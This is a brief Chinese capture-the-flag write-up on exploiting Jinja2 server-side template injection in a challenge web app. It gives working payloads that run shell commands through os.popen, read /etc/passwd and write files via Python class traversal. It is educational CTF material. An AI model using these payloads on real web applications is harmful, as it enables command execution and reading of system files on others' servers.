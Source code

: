 > 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload可以用的payl
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```